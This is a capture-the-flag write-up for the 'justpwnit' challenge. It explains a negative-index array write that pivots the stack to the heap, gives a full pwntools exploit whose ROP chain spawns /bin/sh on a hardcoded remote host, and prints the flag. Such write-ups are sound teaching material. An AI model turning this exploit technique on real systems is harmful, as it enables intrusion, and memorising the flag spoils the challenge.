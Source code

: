 # justpwnit

## Challenge

The program allows us to write strings to the heap.
Pointers to these strings can be saved in an array at a chosen index.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source code

```c
void set_element(char **parray) {
  int index;
  printf("Index: ");
  if (scanf("%d%*c", &index) != 1)
    exit(1);
  if (!(parray[index] = (char*)calloc(sizeof(char), STR_SIZE)))
    exit(1);
  printf("Data: ");
  if (!fgets(parray[index], STR_SIZE, stdin))
    exit(1);
}

void justpwnit() {
  char *array[4];
  for (int i = 0; i < 4; i++) {
    set_element(array);
  }
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(180);
  justpwnit();
  return 0;
}
```

## Solution

There is no bounds checking on the array, so we can overwrite a stored RBP to point at the heap.
Then, after a `ret` and `leave; ret;`, the RSP will be on the heap and the next `ret` will execute our ROP chain.

Unfortunately, `main` has no stack variables, so it has no `leave` in its epilogue.
We cannot use `main` to move our RSP.

`justpwnit` has a `leave` instruction, so we need a `ret` preceding the end of `justpwnit` to set our RBP to a heap address.

Note that `set_element` modifies `array` in `justpwnit`.
We can use a negative index to modify the saved RBP of `set_element`.
`justpwnit` will then `leave; ret;` to set RSP to a heap address and `main` will return into a ROP chain.

We need to use the ROP chain to place "/bin/sh\x00" on the stack and execve it using a syscall.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 168.119.108.148 --port 11010 justpwnit
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('justpwnit')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '168.119.108.148'
port = int(args.PORT or 11010)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak*0x0040120d
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

movqword_ptrRDI_RAX = 0x0000000000401ce7
binsh = 0x40b000

payload = flat({
    0x8: [
        rop.find_gadget(['ret'])[0],
        rop.find_gadget(['pop rdi', 'ret'])[0],
        binsh,
        rop.find_gadget(['pop rax', 'ret'])[0],
        b"/bin/sh\x00",
        movqword_ptrRDI_RAX,
        rop.find_gadget(['pop rsi', 'ret'])[0],
        0,
        rop.find_gadget(['pop rdx', 'ret'])[0],
        0,
        rop.find_gadget(['pop rax', 'ret'])[0],
        59,
        rop.find_gadget(['syscall'])[0],
        ],
    })

io.sendlineafter(b'Index: ', b'-2')
pause()
io.sendlineafter(b'Data: ', payload)

io.interactive()
```

## Flag

`ASIS{p01nt_RSP_2_h34p!_RHP_1n5t34d_0f_RSP?}`

